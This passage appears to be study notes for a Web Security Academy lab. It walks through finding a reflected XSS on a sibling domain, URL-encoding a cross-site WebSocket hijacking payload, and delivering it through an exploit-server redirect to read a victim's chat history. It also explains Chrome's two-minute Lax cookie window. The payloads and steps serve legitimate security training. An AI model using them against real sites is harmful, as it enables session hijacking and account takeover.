 Identify an additional vulnerability in the same "site"
- In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an Access-Control-Allow-Origin header, which reveals a sibling domain at cms-YOUR-LAB-ID.web-security-academy.net.
- In the browser, visit this new URL to discover an additional login form.
- Submit some arbitrary login credentials and observe that the username is reflected in the response in the Invalid username message.
- Try injecting an XSS payload via the username parameter, for example:
- <script>alert(1)</script>
- Observe that the alert(1) is called, confirming that this is a viable reflected XSS vector.
- Send the POST /login request containing the XSS payload to Burp Repeater.
- In Burp Repeater, right-click on the request and select Change request method to convert the method to GET. Confirm that it still receives the same response.
- Right-click on the request again and select Copy URL. Visit this URL in the browser and confirm that you can still trigger the XSS. As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions.

Bypass the SameSite restrictions
- URL encode the entire script from above. 
    - Go to burp Decoder and paste the entire script from above there. (make sure to include <script>...</script> html tags)
    - Click encode as URL
- Go back to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested, but use the URL-encoded CSWSH payload as the username parameter. The following is one possible approach: 
```bash
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=<script>let ws = new WebSocket()...</script>&password=anything";
</script>
```
Deliver the exploit to the victim
In collaborator review the chat history and login as another user

### Bypassing SameSite Lax restrictions with newly issued cookies
Cookies with Lax SameSite restrictions aren't normally sent in any cross-site POST requests, but there are some exceptions.

As mentioned earlier, if a website doesn't include a SameSite attribute when setting a cookie, Chrome automatically applies Lax restrictions by default. However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 120 seconds on top-level POST requests. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks. 

> Note: This two-minute window does not apply to cookies that were explicitly set with the SameSite=Lax attribute. 

It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack. For example, completing an OAuth-based login flow may result in a new session each time as the OAuth service doesn't necessarily know whether the user is still logged in to the target site.
